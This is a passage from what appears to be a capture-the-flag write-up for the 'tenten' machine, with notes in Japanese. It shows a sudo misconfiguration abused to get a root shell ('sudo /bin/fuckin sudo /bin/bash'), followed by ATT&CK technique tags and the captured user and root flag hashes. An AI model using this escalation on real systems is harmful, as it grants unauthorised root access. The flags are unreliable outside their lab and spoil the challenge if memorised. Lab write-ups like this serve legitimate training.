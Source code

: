 ```bash
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```

```bash
takis@tenten:~$ sudo /bin/fuckin sudo /bin/bash   
root@tenten:~# ls
```


- **Tactics**:
    - #Tactic_特権昇格
- **Techniques**:
    - #T1068_特権昇格のためのエクスプロイト
    - #T1055_プロセス注入
    - #T1053_スケジュールされたタスク/ジョブ
    - その他のPrivilege Escalation関連技術...



---

## Notes

- **Tactics**:
    - #Tactic_永続化
    - #Tactic_防御回避
- **Techniques**:
    - #T1098_アカウント操作
    - #T1553_信頼制御の転覆
    - #T1070_ホスト上の痕跡削除
    - その他のPersistence/Defense Evasion関連技術...



---
## Flags

- **User**: 0bf01acf49bac4e88cbf781c299f900f
- **Root**: eb428d5fa003b32e5b2beb1798d92ea1
---

### ポイント


- WordPressのプラグインはOSSなので、脆弱性あることが多い
- 脆弱性を使った調査で画像出てきたら、ステガノグラフィの可能性あり。
- 